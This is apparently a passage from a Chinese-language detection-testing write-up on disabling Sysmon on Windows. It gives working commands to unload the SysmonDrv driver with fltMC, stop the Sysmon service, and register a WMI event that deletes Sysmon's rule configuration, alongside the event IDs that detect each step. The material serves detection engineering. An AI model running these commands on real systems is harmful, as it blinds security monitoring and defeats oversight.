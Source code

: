 ### 测试2：卸载SysmonDrv驱动

使用`fltMC.exe`卸载Sysmon微筛选器驱动，禁用其监控功能。

**攻击命令**（需管理员权限）：
```cmd
fltMC.exe unload SysmonDrv
```

**验证命令**：
```cmd
fltMC.exe
```

### 测试3：停止Sysmon服务

通过命令行或任务管理器停止Sysmon服务。

**攻击命令**（需管理员权限）：
```cmd
net stop Sysmon
```

## 检测日志

- **Windows安全日志**：Event ID 4688（进程创建），记录`fltMC.exe`或`net.exe`执行。
- **Sysmon日志**：
  - Event ID 1（进程创建），记录攻击命令执行。
  - Event ID 12/13/14（注册表操作），记录Sysmon配置修改。
  - Event ID 255（错误事件），记录驱动通信失败。
  - Event ID 4（服务状态变更），记录Sysmon服务停止。
- **Windows系统日志**：Event ID 7036/7040/7034（服务控制管理器），记录服务停止或启动类型变更。
- **Windows-WMI-Activity日志**：Event ID 5860（WMI Consumer注册），记录WMI临时Consumer创建。

## 测试复现

### 测试1：删除Sysmon配置项

**测试环境**：Windows Server 2019，Sysmon已安装

**攻击命令**：
```powershell
$query = "SELECT * FROM RegistryKeyChangeEvent WHERE Hive='HKEY_LOCAL_MACHINE' AND KeyPath='SYSTEM\\CurrentControlSet\\Services\\SysmonDrv\\Parameters'"
Register-WMIEvent -Query $query -Action {
    Write-Host "Sysmon config updated, deleting config."
    Remove-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\SysmonDrv\Parameters" -Name "Rules"
}
```

**结果**：
- WMI Consumer成功注册，监控Sysmon配置。
- 触发注册表修改后，`Rules`键被删除，Sysmon恢复默认配置，停止记录自定义规则事件。
- 日志中记录WMI Consumer创建和注册表删除操作。

